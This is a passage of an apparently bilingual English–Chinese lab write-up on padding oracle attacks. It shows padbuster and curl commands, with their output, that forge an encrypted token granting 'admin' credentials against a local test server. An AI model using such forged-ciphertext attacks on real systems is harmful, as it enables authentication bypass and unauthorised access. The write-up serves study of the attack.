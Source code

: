 ```
0x7141425f5d56574351562f1730213728 (intermediate value)
=
0x30313233343536373839414243444546 (key ‘0123456789ABCDEF’)


--------------------------------------------------------------------
--- 加密：
--------------------------------------------------------------------
We can also encrypt arbitrary content (Please refer to the original padbuster blog post on how this works behind the scenes). The only restriction is that it is not possible to control the first block. This is due to the static IV being used. The application would still accept the resulting ciphertext if we terminate the uncontrollable data of the first block with ‘=bla&’. Note that the crafted ciphertext does not have to have the same length as the original one.
简单来说，跟我们前面讲过的padbuster标准的加密思路一样，由于这里服务器用的是服务器端写死的IV，我们当然是可以算出的，但是完全没必要，因为服务器会把接收到的全部作为密文处理，当然包括第一个区块，所以根据我们前面标准的加密思路，可以知道，我们最终生成的若干个区块的第一个区块的new...new IV绝对是跟服务器端完全不同的了，所以第一个密文区块（这里的例子实际是prefix两个区块）一定是会对应的明文一定会被解密成垃圾，所以这里利用了明文的键值对&规则，通过=bla&将前面无法控制的那堆垃圾作为key，key=bla&这样”终止掉“
# padbuster "http://127.0.0.1:5000/check?cipher=484b850123a04baf15df9be14e87369b" "484b850123a04baf15df9be14e87369b" 16 -encoding 1 -error "ApplicationUsername missing" -prefix "484b850123a04baf15df9be14e87369bc59ca16e1f3645ef53cc6a4d9d87308e" -plaintext "=bla&ApplicationUsername=admin&Password=admin"

[+] Encrypted value is: 753e2047e19bf24866ae5634f3454ef3a3802d5144a051a7246762f57a16f73531d76ada52422e176ea07e45384df69d00000000000000000000000000000000


# curl http://127.0.0.1:5000/check?cipher=753e2047e19bf24866ae5634f3454ef3a3802d5144a051a7246762f57a16f73531d76ada52422e176ea07e45384df69d00000000000000000000000000000000

decrypted: ��_c�I�B�C���=bla&ApplicationUsername=admin&Password=admin

parsed: {'\xf7\xc1_c\x9e\x1cI\x9aB\xccC\x10\xac\x07\x90\x97': ['bla'], 'Password': ['admin'], 'ApplicationUsername': ['admin']}

```



---

ref

https://www.youtube.com/watch?v=7XZdsR0jHjo

https://github.com/lyhistory/Padding-oracle-attack
